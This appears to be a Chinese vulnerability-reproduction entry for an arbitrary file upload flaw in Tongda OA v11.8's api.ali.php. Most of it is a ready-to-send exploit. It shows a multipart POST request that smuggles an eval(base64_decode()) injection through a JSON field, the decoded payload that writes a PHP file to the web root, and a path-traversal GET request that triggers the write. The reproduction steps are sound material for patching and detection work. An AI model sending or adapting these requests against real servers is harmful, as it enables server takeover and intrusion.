



通达OA v11.8 api.ali.php 任意文件上传漏洞¶
漏洞描述¶
通达OA v11.8 api.ali.php 存在任意文件上传漏洞，攻击者通过漏洞可以上传恶意文件控制服务器
漏洞影响¶
通达OA v11.8
漏洞复现¶
登陆页面

向 api.ali.php 发送请求包
POST /mobile/api/api.ali.php HTTP/1.1
Host:
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip
--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream
{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==","dataAnalysis":"{\"a\":\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\"}"}
--502f67681799b07e4de6b503655f5cae--
参数a base解码
ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==
file_put_contents('../../fb6790f4.php','');

再发送GET请求写入文件，页面返回+OK
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
其中请求中对 2109 为 年月,路径为 /fb6790f4.php,
